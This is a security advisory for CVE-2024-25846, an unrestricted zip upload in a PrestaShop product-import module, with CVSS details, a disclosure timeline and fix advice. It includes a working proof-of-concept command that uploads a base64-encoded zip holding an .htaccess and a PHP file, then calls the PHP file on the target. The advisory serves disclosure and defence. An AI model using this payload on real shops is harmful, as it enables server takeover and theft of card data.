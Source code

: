 ```yaml
---
layout: post
title: "[CVE-2024-25846] Unrestricted Upload of File with Dangerous Type in MyPrestaModules - Product Catalog (CSV, Excel) Import module for PrestaShop"
categories: modules
author:
- TouchWeb.fr
- 202 Ecommerce
meta: "CVE,PrestaShop,simpleimportproduct"
severity: "critical (10)"
---
```


In the module "Product Catalog (CSV, Excel) Import" (simpleimportproduct) up to version 6.7.0 from MyPrestaModules for PrestaShop, a guest can upload files with extensions .php.


## Summary

* **CVE ID**: [CVE-2024-25846](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-25846)
* **Published at**: 2024-02-27
* **Platform**: PrestaShop
* **Product**: simpleimportproduct
* **Impacted release**: <= 6.7.0 (6.7.1 ""fixed"" the vulnerability - See note below)
* **Product author**: MyPrestaModules
* **Weakness**: [CWE-434](https://cwe.mitre.org/data/definitions/434.html)
* **Severity**: critical (10)

## Description

The method `Send::__construct()` allows the upload of .zip files, which can be auto uncompress in a predictable directory, author tries to protect it with a.htaccess, but since we can forge a zip with a custom .htaccess and a PHP payload, it will lead to a critical vulnerability [CWE-94](https://cwe.mitre.org/data/definitions/94.html).

**WARNING** : Be warned that this exploit will bypass the majority of WAF (zipped payload with htaccess auto-hijacked)

Note : The author has moved its exposed ajax script which suffers a critical issue to a front controller under an unpredictable token. It remains a critical vulnerability issue with a CVSS 3.1 score [9.1/10](https://nvd.nist.gov/vuln-metrics/cvss/v3-calculator?vector=AV:N/AC:L/PR:H/UI:N/S:C/C:H/I:H/A:H). For this reason, you should consider to delete this module.

**Edit 2024-07-09 - WARNING** : This exploit is actively used to deploy webskimmer to massively steal credit cards. Since POC is now exploited, it is considered public.

## CVSS base metrics

* **Attack vector**: network
* **Attack complexity**: low
* **Privilege required**: none
* **User interaction**: none
* **Scope**: changed
* **Confidentiality**: high
* **Integrity**: high
* **Availability**: high

**Vector string**: [CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H](https://nvd.nist.gov/vuln-metrics/cvss/v3-calculator?vector=AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H)

## Possible malicious usage

* Obtain admin access
* Remove data from the associated PrestaShop
* Steal data

## Proof of concept

```bash
echo 'UEsDBBQAAAAIACmivFa0Sii9DgAAAA4AAAAJAAAALmh0YWNjZXNzS8zJyS9XSCvKz1UAMgFQSwMEFAAAAAgAoqG8Vp+ixh8WAAAAFAAAAAUAAABhLnBocLOxL8go4OVKTc7IV9AwMtQ2MtS0BgBQSwECHwAUAAAACAAporxWtEoovQ4AAAAOAAAACQAkAAAAAAAAACAAAAAAAAAALmh0YWNjZXNzCgAgAAAAAAABABgA59XXo5CR2QHn1dejkJHZAeJTwpqQkdkBUEsBAh8AFAAAAAgAoqG8Vp+ixh8WAAAAFAAAAAUAJAAAAAAAAAAgAAAANQAAAGEucGhwCgAgAAAAAAABABgA07RBDJCR2QHTtEEMkJHZAaRqZqCOkdkBUEsFBgAAAAACAAIAsgAAAG4AAAAAAA==' > tmp && base64 -d tmp > test.zip && curl -v -F "file=@test.zip" 'https://preprod.X/modules/simpleimportproduct/classes/send.php?zip_file=1&ajax=1&stepTwo=1&import_settings_name=1' && curl -v 'https://preprod.X/modules/simpleimportproduct/data/zip_files/a.php'
```

## Other recommendations

* It’s recommended to delete the module **simpleimportproduct** or at least, to upgrade it to its latest version.
* Activate OWASP 933's rules on your WAF (Web application firewall), be warned that you will probably break your backoffice and you will need to pre-configure some bypasses against this set of rules.

## Timeline

| Date | Action |
|--|--|
| 2023-05-28 | Issue discovered during a code review by [TouchWeb.fr](https://www.touchweb.fr) |
| 2023-05-28 | Contact PrestaShop Addons security Team to confirm version scope |
| 2023-06-01 | PrestaShop Addons security Team confirms version scope |
| 2023-11-15 | Author provide a patch |
| 2024-02-22 | Received CVE ID |
| 2024-02-27 | Publish this security advisory |

## Links

* [PrestaShop addons product page](https://addons.prestashop.com/fr/import-export-de-donnees/19091-catalogue-de-produits-csv-excel-dimportation.html)
* [National Vulnerability Database](https://nvd.nist.gov/vuln/detail/CVE-2024-25846)
